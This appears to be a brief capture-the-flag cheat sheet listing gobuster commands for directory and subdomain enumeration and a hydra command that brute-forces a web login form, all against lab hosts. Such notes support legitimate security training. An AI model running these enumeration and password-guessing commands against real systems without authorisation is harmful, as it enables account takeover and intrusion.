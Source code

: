 # Gobuster
>Directory busting

`gobuster dir -u http://frizzdc.frizz.htb/home/ -f -t 15 -o gobusterdir.out -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -s 200-350 -b ""`

> Subdomain enumeration

`gobuster dns -d lookup.thm -t 25 -o gobusterdns.out -w /usr/share/wordlists/seclists/Discovery/DNS/services-names.txt`

# Brute Forcing
## Hydra
> Submit POST-FORM content to a login page
> `-m` details the page, first and second parameters, and a keyword that, if present in the POST response, means the login attempt failed. Delimited by colons.

`hydra -L /usr/share/wordlists/seclists/Usernames/Names/names.txt  -P /usr/share/wordlists/seclists/Passwords/Common-Credentials/top-passwords-shortlist.txt http-post-form://lookup.thm -m "/login.php:username=^USER^&password=^PASS^:Wrong" -t 64`